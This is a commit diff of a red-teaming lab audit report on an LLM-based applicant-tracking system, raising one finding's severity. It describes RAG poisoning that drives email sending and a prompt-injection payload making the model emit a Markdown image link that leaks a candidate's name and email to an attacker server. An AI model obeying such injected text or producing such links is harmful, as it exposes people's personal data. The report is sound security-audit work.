

Before and after one commit to RakotondramananaNantenainaMickael/Portfolio, a Markdown page: llm-red-teaming-lab/audit_report.md, the part around the change. Rendered like a GitHub page.

```diff
--- a/llm-red-teaming-lab/audit_report.md
+++ b/llm-red-teaming-lab/audit_report.md
@@ -28,7 +28,7 @@ The EcoMada ATS utilizes an LLM to automatically analyze resumes and send emails
 - **Remediation:** The RAG knowledge base must be strictly read-only and protected by strong access controls. The AI should be instructed to never execute operational commands (like sending emails) based solely on text from a knowledge base.
 
 ## Finding 3: Zero-Click Data Exfiltration via Markdown
-- **Severity:** High
+- **Severity:** Critical
 - **OWASP Mapping:** LLM02 (Sensitive Information Disclosure)
 - **Description:** The frontend renders the LLM's output as standard Markdown without sanitizing URLs.
 - **Exploit:** The attacker injected a payload forcing the AI to generate a Markdown image link pointing to an external server, dynamically inserting the candidate's PII (`![Audit](http://localhost:8000/leak?nom=Dupont&email=test@att.com)`).
```
